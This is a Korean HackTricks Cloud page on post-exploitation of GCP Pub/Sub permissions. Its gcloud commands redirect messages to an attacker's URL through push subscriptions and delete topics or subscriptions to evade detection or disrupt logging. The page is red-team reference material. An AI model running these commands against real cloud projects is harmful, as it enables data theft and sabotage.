 # GCP - Pub/Sub 포스트 익스플로잇레이션

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)로부터 AWS 해킹을 제로부터 전문가까지 배우세요</strong>!</summary>

HackTricks를 지원하는 다른 방법:

* **회사가 HackTricks에 광고되길 원하거나** **PDF 형식의 HackTricks를 다운로드**하려면 [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 굿즈**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 저희의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* **💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f)이나 [**텔레그램 그룹**](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* **해킹 트릭을 공유하고 싶다면** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 저장소에 PR을 제출하세요.

</details>

## Pub/Sub

Pub/Sub에 대한 자세한 정보는 다음 페이지를 확인하세요:

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

주제에 메시지를 게시하여 **예상치 못한 데이터를 보내고** 예상치 못한 기능을 트리거하거나 취약점을 악용하는 데 유용합니다:
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

메시지 수신을 방지하여 감지를 피하기 위해 유용합니다.
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

메시지 수신을 방지하여 감지를 피하기 위해 유용합니다.\
주제에 구독이 연결된 상태에서도 주제를 삭제할 수 있습니다.
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

이 권한을 사용하여 `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key`와 같은 주제의 설정을 업데이트하여 방해할 수 있습니다.

### `pubsub.topics.setIamPolicy`

이전 공격 중 하나를 수행할 수 있는 권한을 부여합니다.

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

웹 서버에서 모든 메시지를 가져옵니다:

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

구독을 생성하고 **메시지를 가져오는 데 사용**하십시오:
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**구독 삭제**는 로그 처리 시스템을 방해하는 데 유용할 수 있습니다:
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### `pubsub.subscriptions.update`

이 권한을 사용하여 메시지가 액세스할 수 있는 위치(URL, Big Query 테이블, Bucket)에 저장되도록 설정을 업데이트하거나 그것을 방해할 수 있습니다.

{% code overflow="wrap" %}
```bash
gcloud pubsub subscriptions update --push-endpoint <your URL> <subscription-name>
```
{% endcode %}

### `pubsub.subscriptions.setIamPolicy`

이전에 설명 된 공격을 수행하기 위해 필요한 권한을 부여합니다.

### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

스키마를 주제에 연결하여 메시지가 스키마를 충족하지 않게하고 주제가 방해를 받도록합니다.\
스키마가 없는 경우 하나를 만들어야 할 수도 있습니다.

{% code title="schema.json" %}
```json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```
{% endcode %}
```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.delete`

이 작업은 스키마를 삭제하는 것처럼 보일 수 있지만 스키마를 삭제하면 스키마를 충족시키지 않는 메시지를 보낼 수 있습니다. 그러나 스키마가 삭제되면 실제로 메시지가 주제 내부로 들어가지 않습니다. 따라서 이 작업은 **쓸모가 없습니다**:
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.setIamPolicy`

이전에 설명된 공격을 수행하기 위해 필요한 권한을 부여하세요.

### `pubsub.snapshots.create`, `pubsub.snapshots.seek`

이 명령은 확인되지 않은 모든 메시지의 스냅샷을 만들고 해당 스냅샷을 구독에 다시 넣습니다. 공격자에게는 그다지 유용하지 않지만 여기에 있습니다:
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>와 함께 제로부터 영웅이 되는 AWS 해킹 배우기</summary>

다른 방법으로 HackTricks를 지원하는 방법:

* **회사가 HackTricks에 광고되길 원하거나 HackTricks를 PDF로 다운로드하고 싶다면** [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왹**](https://peass.creator-spring.com)을 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **가입**하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)을 **팔로우**하세요.
* **HackTricks** 및 **HackTricks Cloud** github 저장소에 PR을 제출하여 귀하의 해킹 기술을 공유하세요.

</details>
